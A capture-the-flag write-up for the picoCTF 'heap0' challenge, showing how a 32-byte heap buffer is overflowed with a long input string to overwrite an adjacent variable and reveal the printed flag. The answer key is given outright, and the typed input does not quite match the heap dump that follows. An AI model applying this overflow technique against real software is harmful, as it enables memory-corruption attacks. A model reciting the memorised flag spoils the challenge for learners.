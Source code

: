 # Given

Are overflows just a stack concern?
Download the binary [here](https://artifacts.picoctf.net/c_tethys/13/chall).
Download the source [here](https://artifacts.picoctf.net/c_tethys/13/chall.c).
Additional details will be available after launching your challenge instance.

# Solution
When you netcat into the instance, it immediately gives these instructions:
```
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x6500f57582b0  ->   pico
+-------------+----------------+
[*]   0x6500f57582d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit
```
Trying the options one at a time, we see the following:
- Option 1 just prints out the same heap state from above. Notice that the addresses of the 2 variables are right next to each other,
  separated by 32 bytes.
- Skipping to option 3, it looks like safe_var is the second address from the heap data
- Option 4 prints the following:
```
Looks like everything is still secure!

No flage for you :(
```
So, based on the first line of this response, and "I'm confident it \[safe_var\] can't be modified",
my best guess would be that we just have to change the value of safe_var somehow.
Let's test a little bit of input, to make sure we don't mess up the flag.
Writing in `01234567` with option 2 gives us the following heap dump:
```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x64085cf412b0  ->   01234567
+-------------+----------------+
[*]   0x64085cf412d0  ->   bico
+-------------+----------------+
```
So, it looks like we're writing over the first variable.
To get safe_var to change, we might just have to make our input 32 characters long.
Try option 2 again with the input:
`012345678901234567890123445678901`
and we get the heap dump:
```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x64085cf412b0  ->   01234567890123456789012345678901
+-------------+----------------+
[*]   0x64085cf412d0  ->   
+-------------+----------------+
```
Nice. Looks like we perfectly filled up the 32 bytes, and then got a null byte placed at the end of our string 
(which just so happens to be the starting address of the next string), making
`safe_var` look like just an empty string. Checking option 4 now, we get:
```
YOU WIN
picoCTF{my_first_heap_overflow_4fa6dd49}
```
